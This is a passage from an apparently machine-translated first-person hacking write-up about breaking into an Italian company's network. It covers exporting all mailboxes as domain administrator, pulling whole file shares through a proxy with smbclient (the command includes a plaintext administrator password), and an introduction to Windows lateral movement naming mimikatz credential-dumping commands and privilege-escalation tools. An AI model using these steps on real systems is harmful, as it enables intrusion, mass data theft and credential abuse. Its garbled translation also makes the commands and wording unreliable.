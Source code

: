 [1] https://github.com/Neohapsis/creddump7
[2] http://proxychains.sourceforge.net/
[3] https://www.samba.org/
[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[5] https://github.com/gentilkiwi/mimikatz


- [11 - Downloading the Post Office] ----------------------------------------- ------

Now that I have the domain administrator password, I have access to
the couriers, the heart of the company. Because with every step that I take there is a
risk of detection, I download the emails before continuing to explore.
Powershell makes it easy [1]. Interestingly, I found a bug with the handling
of dates. After getting the emails, it took me a couple of weeks to
get the source code and everything else, so I came back from time to time to
download new emails. The server was Italian, with dates in the
format day / month / year. Use:
-ContentFilter {(Received -ge '05 / 06/2015 ') -or (Sent -ge '05 / 06/2015')}

with the New-MailboxExportRequest to download the new emails (in this
Case all the mails from June 5. The problem is that it says
that the date is invalid if the day is greater than 12 (I guess this is due to
that in the month the month is first and it can not be a month greater than 12). It seems
that Microsoft engineers have only tested their software with their own
regional configuration.

[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/


- [12 - Downloading Files] ------------------------------------------ -------

Now that I am a domain administrator, I also started downloading the
shared resources using my proxy and the -Tc option of smbclient, by
example:

proxymbins smbclient '//192.168.1.230/FAE DiskStation' \
    -U 'HACKINGTEAM / Administrator% uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

So I downloaded the folders Amministrazione, FAE DiskStation, and FileServer in
the torrent


- [13 - Introduction to Windows Domain Hacking] -----------------------

Before continuing to tell the story of the Culiaan weones, we can say something about
knowledge to attack Windows networks.


---- [13.1 - Lateral Movement] ---------------------------------------- -------

I will give a brief review of the techniques to spread within a network of
Windows The techniques to run remotely require the password or
hash a local administrator in the goal. By far the most common way
to get these credentials is to use mimikatz [1], especially
sekurlsa :: logonpasswords and sekurlsa :: msv, on computers where you already have
administrative access. The "in situ" movement techniques also require
administrative privileges (except for runes). The most tools
Important for escalation of privileges are PowerUp [2], and bypassuac [3].
